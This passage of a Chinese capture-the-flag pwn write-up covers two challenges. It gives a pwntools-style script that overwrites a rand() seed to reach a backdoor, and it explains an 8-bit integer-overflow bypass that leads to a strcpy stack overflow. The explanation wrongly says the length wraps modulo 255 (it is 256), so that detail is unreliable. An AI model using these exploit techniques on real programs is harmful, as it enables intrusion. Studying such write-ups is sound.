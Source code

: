 ```c
    {
      puts("GG!");
      exit(1);
    }
    puts("Success!");
  }
  sub_C3E();
  return 0LL;
}
```

使用了 `srand` 生成随机种子，但是参数 `seed` 可以被 `v7` 覆盖，因此我们只需要控制 `seed[0]` 即可预测产生的随机数从而进入 `sub_C3E` 后门函数。

```python
ru('name:')
payload = flat('a'*0x20, 0)
sl(payload)

from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0)
for i in range(10):
    sla('number:', libc.rand()%6+1)
```

### int_overflow

本题只能 `login`，并输入用户名密码，随后进入 `check_passwd` 函数验证：

```c
char *__cdecl check_passwd(char *s)
{
  char *result; // eax
  char dest; // [esp+4h] [ebp-14h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if (v3 <= 3u || v3> 8u )
  {
    puts("Invalid Password");
    result = (char *)fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    result = strcpy(&dest, s);
  }
  return result;
}
```

注意到这里我们希望进入 `else` 语句，将输入的 `s` 复制到 `dest` 所在地址处造成栈溢出。但是这要求 `s` 的长度大于 3 且小于 8，这个长度太短了。因此结合题名考虑整数溢出：这里的 `v3` 是无符号的 8 位整数，那么当字符串长度实际上只需要模 255 的结果大于 3 小于 8 即可。最后返回到后门函数。
